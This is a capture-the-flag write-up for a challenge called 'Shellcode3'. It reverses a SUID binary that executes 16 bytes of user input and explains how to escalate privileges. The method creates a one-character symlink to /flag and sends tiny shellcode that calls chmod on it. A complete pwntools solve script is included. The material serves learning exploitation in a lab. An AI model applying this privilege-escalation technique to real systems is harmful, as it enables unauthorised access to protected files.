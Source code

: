 # Shellcode3

Author: `misi`

---
In this challenge we are given a shell. The flag file is located at /flag, and the challenge binary is in /challenge. By running `ls -la /flag /challenge/shellcode`, we can see the privileges of each file.

<img width="557" height="123" alt="2" src="https://github.com/user-attachments/assets/4da74245-4adf-4055-9cea-75b054c1c8e0" />

Both /flag and /challenge/shellcode are owned by the user `owner`.  
Our current user (`ctf`) does not have permission to read /flag.  
However, the binary /challenge/shellcode has the SUID bit set, which means it runs with the privileges of its owner (owner). This allows us to potentially use it to access /flag.

### Reversing
Start by doing a checksec on the given binary to see what security features is enabled.

<img width="605" height="138" alt="1" src="https://github.com/user-attachments/assets/d03914c1-5411-46a0-af61-8f3f0bc3632f" />

- PIE is enabled
- There is no stack canary found
- The binary is not stripped
- NX enabled

I use ghidra to decompile the given binary  
main() is the only function we need to reverse.  

<img width="704" height="756" alt="3" src="https://github.com/user-attachments/assets/3dfa6d68-c3f2-4e60-b2fe-2ba654547fa0" />

main() will print out some information, do a mmap, making some memory region executable, and then read in 0x10 (16 in decimal) bytes into the memory region. Finally it will execute the input you sent in, before it returns.


### Exploitation
Since the shellcode can be at most be 16 bytes long, it is not be possible to open and read the flag directly with shellcode.

<img width="657" height="152" alt="4" src="https://github.com/user-attachments/assets/09e0f660-dc72-4c87-afc4-7ffa7a5db6b4" />

By reading at the assembly code executed before your shellcode runs, you will see that rsi will hold 0x1ed (0o755 in octal). Saving us a few bytes in the shellcode if we want execute syscalls such as chmod.  
Because there are so few bytes available, it will not be possible to run chmod on "/flag", since the filename is too long. However, you do have enough bytes to run chmod on a file with a one-character name.  
By creating a symbolic link to /flag with a single character name such as "x" (`ln -s /flag x`), makes it possible to run chmod on the symlink, which will change the permissions of /flag.  
After executing the shellcode, you can run `cat /flag` to print the flag to the terminal.  

Here is the final solve script:  
```py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

p = process("/challenge/shellcode")

asm_code = asm ("""
        mov eax, 90
        lea rdi, [rip + flag]
        syscall
        flag:
        .string "x"
        """)

# print(len(asm_code))

p.recvuntil("shellcode: ")
p.sendline(asm_code)
p.interactive()
```
